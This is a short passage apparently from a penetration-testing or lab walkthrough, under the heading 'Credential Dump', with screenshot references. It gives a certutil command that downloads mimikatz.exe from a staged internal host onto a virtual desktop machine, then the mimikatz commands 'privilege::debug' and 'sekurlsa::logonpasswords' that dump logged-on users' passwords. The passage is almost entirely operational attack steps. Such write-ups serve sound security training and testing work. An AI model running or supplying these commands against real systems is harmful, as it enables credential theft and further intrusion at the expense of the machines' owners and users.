 ![picture 22](images/3734527298af0eb84d0f95388ae97eadb353ee163b051b21611a11158ec34877.png)  


<br/>

## Credential Dump

Download `mimikatz` on the VDI machine:

```
certutil -urlcache -f http://192.168.100.11/mimikatz.exe .\mimikatz.exe
```

![picture 23](images/b708888fdc32ca5fedb8e556320f7abcd240c9e28cf98157385283ca6a54441e.png)  


<br/>

Then dump passwords:

```
.\mimikatz.exe
```

```
privilege::debug
sekurlsa::logonpasswords
```
